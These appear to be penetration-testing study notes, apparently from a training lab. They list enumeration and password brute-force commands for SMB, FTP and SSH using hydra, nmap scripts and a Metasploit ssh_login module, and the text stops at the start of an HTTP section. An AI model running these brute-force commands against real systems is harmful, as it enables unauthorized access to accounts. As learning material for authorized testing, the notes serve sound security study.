     **Hydra** 
    
    - `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.174.58.3 smb`
 
      ------------------------------------------------------------------------------

* FTP
    
    FTP (**File Transfer Protocol**) - a client-server protocol used to transfer files between a network using TCP/UDP connections.
    Default FTP port is **21**, opened when FTP is activated for sharing data.
    
    - `nmap -p21 -sV -sC -O 192.217.238.3`
    - Try Anonymous login `ftp 192.217.238.3` - failed
    - `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp`- hydra brute force
    - `nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3` - nmap to brute password
    - `nmap --script ftp-anon -p21 192.119.169.3` - nmap anonymous login script
 
-----------------------------------------------------------------------------------------------


* SSH
    
    SSH (**Secure Shell Protocol)** - a cryptographic network protocol for operating network services securely over an unsecured network, based on a client-server model. Default SSH TCP port is **22**.
    
    - `nmap -p22 -sV -sC -O 192.8.3.3`
    - `nc 192.8.3.3 22` - Banner grabbing
    - `ssh [root@192.8.3.3](mailto:root@192.8.3.3) 22`
    - `nmap --script ssh2-enum-algos 192.8.3.3` - nmap enum-alogo script
    - `nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.8.3.3` - nmap ssh hostkey script
    - `nmap -p22 --script ssh-auth-methods --script-args="ssh.user=student" 192.8.3.3` - nmap ssh auth method scripts
    - `ssh student@192.8.3.3`
    
    **Dictionary Attack** 
    
    - `hydra -l student -P /usr/share/wordlists/rockyou.txt 192.230.83.3 ssh`
    - `nmap -p22 --script=ssh-brute --script-args userdb=/root/users 192.230.83.3`
    - Msfconsole
        - `use auxiliary/scanner/ssh/ssh_login`
        - `set RHOSTS 192.230.83.3`
        - `set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt`
        - `set STOP_ON_SUCCESS true`
        - `set VERBOSE true`
        - `exploit`


----------------------------------------------------------------------------------------



* HTTP
    
    HTTP (**Hyper Text Transfer Protocol**) - a client-server application layer protocol, used to load web pages using hypertext links.
    Default HTTP port is **80** and HTTPS port is **443.**
    